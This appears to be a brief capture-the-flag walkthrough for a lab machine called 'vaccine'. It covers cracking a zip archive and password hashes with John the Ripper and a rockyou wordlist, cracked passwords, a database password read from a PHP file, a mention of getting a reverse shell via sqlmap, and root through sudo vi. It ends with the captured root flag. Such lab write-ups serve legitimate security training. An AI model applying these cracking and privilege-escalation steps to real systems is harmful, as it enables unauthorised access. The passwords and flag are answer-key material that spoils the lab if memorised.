 ip = 10.129.228.235

```bash
zip2john protected.zip > hash.txt

# find hash code in hash.txt

john --list=formats | grep pkzip

john --format=pkzip hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```

password for zip = 741852963 (backup.zip)

```bash
john search?
john --format=md5-raw hash.txt --wordlist=/...
```

password for web page = qwerty789

---

use sqlmap to reverse shell into the server

user.txt found in lib. Extract with

```bash
find / -name 'user.txt' 2>/dev/null | xargs cat
```

copy /var/www/html/dashboard.php contents using base64. Found this line

```php
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

use sudo -l to list permission

```bash
postgres@vaccine:~$ sudo -l
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
THS LINE -->    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

then run command

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

root flag:
dd6e058e814260bc70e9bbdef2715849
